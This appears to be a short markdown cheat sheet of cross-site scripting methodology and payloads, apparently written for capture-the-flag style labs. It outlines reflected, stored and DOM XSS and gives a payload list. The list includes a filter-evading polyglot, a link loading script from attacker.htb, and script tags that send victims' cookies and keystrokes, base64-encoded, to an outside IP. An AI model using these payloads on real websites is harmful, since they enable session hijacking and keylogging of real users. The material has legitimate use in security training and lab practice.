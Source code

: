 #### Methodology
##### XSS methodology:
```
Find where input gets reflected
Check for XSS types
Escape HTML/JS (use polyglot)
Use payloads
```

##### Reflected XSS
Look for:
```cpp
Parameters in URL query: http://vulnerable.thm/forum?popup=<script>alert('XSS');</script>
URL file path: ?
```
Exploitation:
Create malicious link: `http://vulnerable.thm/forum?popup=<script src=attacker.htb/exploit.js>`

##### Stored XSS
Look for:
```cpp
Unsanitized comment: payload in fields
Websile listings: payload in fields
```
Note: Attempt at uncommon places (age input with a dropdown for an integer etc)
Exploitation: 
Create hidden JS, send malicous link

##### DOM XSS
Look for accessible variables in the JS code
Check if variables are passed to unsafe methods such as `eval()`


##### Payloads
To bypass `alert` blocks, use `prompt` or `confirm`
```C++
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )
//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
// Polyglot, escapes a lot.

<script>alert('XSS');</script> // Proof of concept, sometimes blocked
"><script>alert('XSS');</script> // Escape HTML
</script><script>alert(document.cookie);</script> // Escape javascript functions

<script>fetch('http://10.8.1.167/steal?cookie=' + btoa(document.cookie));</script> // Steal cookies such as PHPSESSID in base64, sent to a malicious IP
<script>document.onkeypress = function(e) { fetch('http://10.8.1.167/log?key=' + btoa(e.key) );}</script> // Log keys, keys sent to hacker.thm

```